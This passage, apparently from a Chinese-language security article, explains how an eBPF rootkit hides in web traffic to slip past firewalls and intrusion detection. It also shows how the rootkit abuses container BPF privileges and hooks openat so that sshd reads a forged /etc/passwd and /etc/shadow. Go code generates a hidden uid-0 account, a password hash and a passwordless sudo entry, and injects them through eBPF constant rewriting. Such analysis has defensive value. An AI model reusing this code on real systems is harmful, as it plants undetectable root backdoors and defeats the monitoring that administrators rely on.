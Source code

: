 
**· 危害**

这个rootkit不主动创建socket，借用其中一个网络发送包，把消息送达给后门使用者。对系统影响来说，只是一个不起眼的小网络响应。在万千HTTP包里，根本定位不到。

1. iptables防火墙绕过 ：利用对外开放的80端口作为通讯隧道；
    
2. webIDS绕过：流量到达服务器后，并不传递给nginx；
    
3. NIDS绕过：入侵者流量在局域网之间流传并无异常，只是无法解密；
    
4. HIDS绕过：是否信任了防火墙，忽略了本机/局域网来源的SSHD登录？
    

  

 _**L**__**inux系统运行时恶意利用**_

云原生生态下，涌现大批基于eBPF技术实现的集群网络管理插件，比如Calico、cilium等。而业务实现网络管理服务是以容器化方式部署，且有需要给这些容器启用SYS_BPF_ADMIN权限以支持eBPF系统调用。这些服务的运行环境，也给攻击者留下一个完美的发挥空间。

**· 实现流程**

回顾eBPF的hook点，作用在syscall的kprobe、tracepoint事件类型，倘若用在后门rootkit场景，是十分可怕的。比如，修改内核态返回给用户态的数据，拦截阻断用户态行为等为所欲为。而更可怕的是，常见的HIDS都是基于内核态或者用户态做行为监控，这恰恰就绕开了大部分HIDS的监控，且不产生任何日志，简直细思极恐、不寒而栗。

  

**tracepoint事件类型hook**

在SSHD应用中，当用户登录时，会读取/etc/passwd等文件。用户态sshd程序，调用open、read等系统调用，让内核去硬件磁盘上检索数据，再返回数据给sshd进程。

  

**用户态生成payload**

用户态实现/etc/passwd、/etc/shadow等文件payload的生成，并通过eBPF的RewriteConstants机制，完成对elf .rodata的字段值替换。

```
 1import "github.com/ehids/ebpfmanager" 2 3//  通过elf的常量替换方式传递数据 4func (e *MBPFContainerEscape) constantEditor() []manager.ConstantEditor { 5    var username = RandString(9) 6    var password = RandString(9) 7    var s = RandString(8) 8 9    salt := []byte(fmt.Sprintf("$6$%s", s))10    // use salt to hash user-supplied password11    c := sha512_crypt.New()12    hash, err := c.Generate([]byte(password), salt)1314    var m = map[string]interface{}{}15    res := make([]byte, PAYLOAD_LEN)16    var payload = fmt.Sprintf("%s ALL=(ALL:ALL) NOPASSWD:ALL #", username)17    copy(res, payload)18    m["payload"] = res19    m["payload_len"] = uint32(len(payload))2021    // 生成passwd字符串22    var payload_passwd = fmt.Sprintf("%s:x:0:0:root:/root:/bin/bash\n", username)23    // 生成shadow字符串24    var payload_shadow = fmt.Sprintf("%s:%s:18982:0:99999:7:::\n", username, hash)2526    // eBPF RewriteContants27    var editor = []manager.ConstantEditor{28        {29            Name:          "payload",30            Value:         m["payload"],31            FailOnMissing: true,32        },33        {34            Name:          "payload_len",35            Value:         m["payload_len"],36            FailOnMissing: true,37            },38    }39    return editor40}4142func (this *MBPFContainerEscape) setupManagers() {43    this.bpfManager = &manager.Manager{44        Probes: []*manager.Probe{45            {46                Section:          "tracepoint/syscalls/sys_enter_openat",47                EbpfFuncName:     "handle_openat_enter",48                AttachToFuncName: "sys_enter_openat",49            },50            ...51        },5253        Maps: []*manager.Map{54            {55                Name: "events",56            },57        },58    }5960    this.bpfManagerOptions = manager.Options{61        ...62        // 填充 RewriteContants 对应map63        ConstantEditors: this.constantEditor(),64    }65}
```

  